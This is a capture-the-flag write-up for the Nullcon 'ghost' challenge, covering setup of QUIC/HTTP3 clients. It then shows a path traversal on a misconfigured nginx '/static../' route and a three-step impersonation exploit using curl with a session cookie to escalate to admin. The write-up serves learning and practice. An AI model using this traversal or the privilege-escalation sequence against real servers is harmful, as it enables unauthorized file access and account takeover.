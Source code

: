 # ghost

## Setup

This was an interesting challenge that involved interating with a [QUIC/HTTP3](https://en.wikipedia.org/wiki/QUIC) server. It did feel guessy towards the end but it wasn't too bad.

Since this exploitation was done pretty manually from the terminal, there is no solution script. I'll detail the basic steps below.

I started by trying to view the web page at the challenge's provided address via different web browsers to no avail. Eventually, based on the listening port of 8443, I realized that this was probably a QUIC server. I then started looking for a suitable command-line client, trying the following:

* [ngtcp2](https://github.com/ngtcp2/ngtcp2): Took forever to figure out the build process and then it didn't work when trying to use the client. Moved on fairly quickly and didn't investigate what was going wrong.
* [aioquic](https://github.com/aiortc/aioquic): Ships with a basic HTTP3 client, but this never worked against the server. Looking at some of the traffic in Wireshark, it looks like this client and the server could never agree on a protocol ID.
* [quiche](https://github.com/cloudflare/quiche): CloudFlare's Rust libary for QUIC/HTTP3 code. Building it with the `--examples` flag produces both an example client and server. After a lot of messing around with my golang setup (Go is required even though this is mostly written in Rust), this option finally worked.

CloudFlare also has an incomplete list of client / browser support [here](https://developers.cloudflare.com/http3/intro/).

## Directory Traversal

After struggling to properly install golang, I finally built a copy of `quiche`, which includes a minimal QUIC client. I could finally start interacting with the server.

Since the only meaningful information on the response page was the presence of a `/static` route on the server, the next obvious step was trying typical mis-configured nginx path traversal on the `/static../` route:

```sh
/opt/quiche/target/debug/examples/http3-client https://web1.ctf.nullcon.net:8443/static../
```

This revealed the presence of a `links.txt` file, which explains the basic components of some "password-less authentication system" that also allows for impersonation of other users:

```
To signup
http://localhost/check.php?signup=true&name=asd

To Impersonate a person
http://localhost/check.php?impersonator=asd&impersonatee=check

To umimpersonate a person
http://localhost/check.php?unimpersonate=asd-admin

To get status
http://localhost/check.php?status=asd
```

I realized that these interactions probably involved headers / session cookies of some kind to keep track of the what's going on, and unfortunately `quiche` did not appear to offer this support yet (or perhaps I was missing something). I decided to try to compile [`curl`](https://curl.haxx.se/) from source with HTTP3 support provided by `quiche`. Fortunately, this is [well-documented](https://github.com/curl/curl/blob/master/docs/HTTP3.md) and went smoothly.

## Logic Game

I could now properly interact with the logic game. To become an admin, you first have to "downgrade" the real admin to a user, impersonate the admin (now allowed because the admin account's level was downgraded to user), and then un-downgrade the admin, so your original user account is now impersonating an admin-level account. This was achieved with the following commands:

```sh
# We first make the admin associated with our account impersonate us, downgrading them to user level.
/opt/curl-http3/src/curl --http3 -vv -b 'PHPSESSID=b783ce4b0efc2d3164b94f0479f0311f' "$URL?impersonator=aaa-admin&impersonatee=aaa" 2>/dev/null | tr '><' '\n'

# We can now impersonate the admin associated with our account. Because they are not at admin level right now, we do not yet get the flag.
/opt/curl-http3/src/curl --http3 -vv -b 'PHPSESSID=b783ce4b0efc2d3164b94f0479f0311f' "$URL?impersonator=aaa&impersonatee=aaa-admin" 2>/dev/null | tr '><' '\n'

# We have the admin unimpersonate our regular account, returning them to admin level. Because our user account is now impersonating an admin account, we get the flag.
/opt/curl-http3/src/curl --http3 -vv -b 'PHPSESSID=b783ce4b0efc2d3164b94f0479f0311f' "$URL?unimpersonate=aaa-admin" 2>/dev/null | tr '><' '\n'
```
